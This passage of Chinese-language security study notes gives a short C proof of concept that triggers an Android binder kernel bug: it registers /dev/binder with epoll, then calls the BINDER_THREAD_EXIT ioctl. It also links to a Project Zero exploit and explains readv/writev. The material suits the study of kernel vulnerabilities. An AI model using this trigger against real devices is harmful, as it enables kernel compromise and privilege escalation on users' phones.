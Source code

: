 
poc
```

#include <fcntl.h>
#include <sys/epoll.h>
#include <sys/ioctl.h>
#include <unistd.h>

#define BINDER_THREAD_EXIT 0x40046208ul

int main()
{
        int fd, epfd;
        struct epoll_event event = { .events = EPOLLIN };
                
        fd = open("/dev/binder", O_RDONLY);
        epfd = epoll_create(1000);
        epoll_ctl(epfd, EPOLL_CTL_ADD, fd, &event);
        ioctl(fd, BINDER_THREAD_EXIT, NULL);
}
```


exp：
https://bugs.chromium.org/p/project-zero/issues/attachmentText?aid=414885
(仅限3.4的内核)


### readv/writev
https://blog.csdn.net/weixin_36750623/article/details/84579243

#### 为什么引出readv()和writev()
因为使用`read()`将数据读到不连续的内存、使用`write()`将不连续的内存发送出去，要经过多次的调用read, write
如果要从文件中读一片连续的数据至进程的不同区域，有两种方案：①使用read()一次将它们读至一个较大的缓冲区中，然后将它们分成若干部分复制到不同的区域； ②调用read()若干次分批将它们读至不同区域。
同样，如果想将程序中不同区域的数据块连续地写至文件，也必须进行类似的处理。
怎么解决多次系统调用+拷贝带来的开销呢？
`readv()`和`writev()`只需一次系统调用就可以实现在文件和进程的多个缓冲区之间传送数据，免除了多次系统调用或复制数据的开销。

### 使用
在一次函数调用中：
① writev以顺序iov[0]、iov[1]至iov[iovcnt-1]从各缓冲区中聚集输出数据到fd  
② readv则将从fd读入的数据按同样的顺序散布到各缓冲区中，readv总是先填满一个缓冲区，然后再填下一个  
```
#include <sys/uio.h>
ssize_t readv(int fd, const struct iovec *iov, int iovcnt);
ssize_t writev(int fd, const struct iovec *iov, int iovcnt);
struct iovec {
    void  *iov_base;    /* Starting address */
    size_t iov_len;     /* Number of bytes to transfer */
};
```
(1) 参数：`readv`和`writev`的第一个参数`fd`是个文件描述符，第二个参数是指向`iovec`数据结构的一个指针，其中`iov_base`为缓冲区首地址，`iov_len`为缓冲区长度，参数`iovcnt`指定了`iovec`的个数。  
(2) 返回值：函数调用成功时返回读、写的总字节数，失败时返回-1并设置相应的`errno`。
